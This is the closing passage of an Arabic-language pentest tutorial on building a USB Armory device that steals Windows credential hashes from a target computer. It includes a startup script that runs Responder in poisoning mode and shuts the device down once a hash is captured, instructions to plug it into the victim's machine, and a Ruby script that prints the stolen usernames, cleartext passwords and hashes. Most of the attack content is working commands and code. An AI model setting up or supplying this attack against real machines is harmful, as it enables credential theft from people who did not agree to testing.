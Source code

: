 ```ruby
/usr/bin/screen -dmS responder bash -c 'cd /pentest/responder/; python Responder.py -I usb0 -f -w -r -d -F'
echo "Staring cred watch" >> /root/rc.log
/usr/bin/screen -dmS notify bash -c 'while inotifywait -e modify /pentest/responder/Responder.db; do shutdown -h now; done'
exit 0
```

### **الخطوة:الثالثة:/ تنفيذ الهجوم**

الأن لم يبقى سوى توصيل USB Armory في الجهاز المستهدف والانتظار حتى يعمي ثم تنطفئ الإنارة تماما.

بعد اكتمال الهجوم وأخذ جهازنا, نستطيع أن نوصل ال USB Armory في الكومبيوتر الخاص بنا والحصول على الهاشات والصلاحيات التي تم جمعها

يتم تخزين الصلاحيات في مكانين  
أولها قاعدة بيانات

```text
/pentest/responder/Responder.db
```

ثانيها

```text
/pentest/responder/logs/(MODULE_NAME)-(HASH_TYPE)-(CLIENT_IP).txt
```

وأفضل الملف الأول Responder.db لأنه يخزن جميع أنواع البيانات المسروقة ولا يحتاج منك البحث في أكثر من ملف مثل المسار الثاني.

قمت بعمل سكريبت صغير يقرأ قاعدة البيانات بشكل مرتب و سهل

```ruby
#!/usr/bin/env ruby 
# KING SABRI | @KINGSABRI
# Responder database reader 
#
require "sqlite3"
if ARGV.size == 1 
  responder_db = ARGV[0]
else
  puts "Respnder.db path required!\nUsage: ruby responder-reader.rb /path/responder/Responder.db"
  exit 
end 
# Open
db = SQLite3::Database.new responder_db
records = db.execute "SELECT * FROM responder;"
records.each do |record|
 puts "Timestamp:  #{record[0]}"
 puts "Module:     #{record[1]}"
 puts "HashType:   #{record[2]}"
 puts "IPaddress:  #{record[3]}"
 puts "Hostname:   #{record[5].split('\\')[0]}"
 puts "Username:   #{record[5].split('\\')[1]}"
 puts "Cleartext:  #{record[6]}"
 puts "Hash:       #{record[7]}"
 puts "Full Hash:  #{record[8]}"
 puts 
end 
puts "[+] Number of records: #{records.size}"
```

